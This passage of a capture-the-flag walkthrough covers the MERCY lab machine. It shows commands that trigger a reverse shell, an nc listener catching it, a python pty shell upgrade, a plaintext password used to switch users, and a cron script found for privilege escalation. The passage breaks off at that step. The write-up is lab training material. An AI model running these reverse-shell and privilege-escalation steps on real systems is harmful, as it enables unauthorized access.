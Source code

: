 ``` bash
root@kali:~$ curl -s 'http://192.168.179.132:8080/reverse/'
```

``` bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.132] 50554
id
uid=116(tomcat7) gid=126(tomcat7) groups=126(tomcat7)
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat7@MERCY:/var/lib/tomcat7$ uname -a
uname -a
Linux MERCY 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
Enumerating in the web root directory we find the **time** file that contains the current date, it's possible that a cron job is redirecting the results to this file, and if we see the date when listing this file, the last time that it was modified, it was a few moments ago.

``` bash
tomcat7@MERCY:/var/www/html$ ls -la
...
-rw-r--r-- 1 www-data www-data   79 May  2 23:36 time
```
We switch to the user **fluffy**.

``` bash
tomcat7@MERCY:/var/www/html$ su fluffy
Password: freakishfluffybunny

$ bash
fluffy@MERCY:/var/www/html$ 
```
In the patrick home directory I found the **.private/secret/timeclock** file, that contains a bash script the same that redirects the date, other text and assigns www-data permissions to the **time** file, as shown below:

``` bash
fluffy@MERCY:~/.private/secrets$ cat timeclock
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time
```

## Privilege Escalation

### Abussing cron job
